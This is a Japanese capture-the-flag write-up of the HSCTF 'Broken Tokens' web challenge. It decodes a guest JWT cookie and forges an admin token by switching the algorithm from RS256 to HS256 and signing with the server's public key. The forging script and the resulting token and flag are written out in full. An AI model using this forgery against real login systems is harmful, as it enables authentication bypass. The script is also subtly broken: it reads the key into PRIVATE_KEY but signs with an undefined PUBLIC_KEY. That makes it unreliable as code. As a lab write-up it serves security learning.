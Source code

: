 # Broken Tokens

100pt (335 Solves)

```txt
I made a login page, is it really secure? https://broken-tokens.web.hsctf.com/

Note: If you receive an "Internal Server Error" (HTTP Status Code 500), that means that your cookie is incorrect.

Author: hmmm
```

## 添付

- [main.py](./attachments/main.py)

## 概要

![login](../img/Broken_Tokens.png)  

- ログインページ  
適当なID、Passでログインすると`Logged in as guest`と表示される。  
  - publickey.pen  
  publickkeyが書いてある。これを使えってことだろう。

ログインしたら以下のようなCookieがセットされ、変に弄ったら`InternalServerError`になる。  

```txt
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhdXRoIjoiZ3Vlc3QifQ.e3UX6vGuTGHWouov4s5HuKn6B5zbe0ZjxwHCB_OQlX_TcntJuj89x0RDi8gQi88TMoXSFN-qnFUQxillB_nD5ErrVZKL8HI5Ah_iQBX1xfu097H2xT3LAhDEceq4HDEQY-iC4TVSxMGM0AS_ItsVLBIrxk8tapcANvCW_KnO3mEFwfQOD64YHtapSZJ-kKjdN19lgdI_g-2nNI83P6TlgLtZ8vo1BB1zt_8b4UECSiPb67YCsrCYIIsABq5UyxSwgUpZsM6oxW0k1c4NbaUTnUWURG2qWDVw56svRQETU3YjO59AMj67n9r9Y9NJ9FBlpHQ60Ck-mfL5JcmFE9sgVw
```

`.`区切りで最初2つをbase64デコードすると`{"typ":"JWT","alg":"RS256"}`、`{"auth":"guest"}`。  
脳死で`{"auth":"admin"}`に書き換えたが署名があるからか、InternalServerErrorになる。

## 解

[main.py](./attachments/main.py)を見ながら調べてたら、  
攻撃者が署名したトークンで認証を通過できるという記事を見つけた。  

アルゴリズムを`RS256`から`HS256`に書き換えればできるっぽい。公開鍵を手元に保存しておく。

`pip install pyjwt==0.4.3`で古いjwtパッケージをインストールして、以下を実行

```python
import jwt

with open("publickey.pem", "r") as f:
        PRIVATE_KEY = f.read()

print (jwt.encode({"auth": "admin"}, PUBLIC_KEY, algorithm="HS256"))
```

```shell
$ python3 solve.py
b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM-1Sz-SzKvad4'
```

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM-1Sz-SzKvad4`をcookieにセットし、ページを更新すればflag。

```txt
flag{1n53cur3_tok3n5_5474212}
```
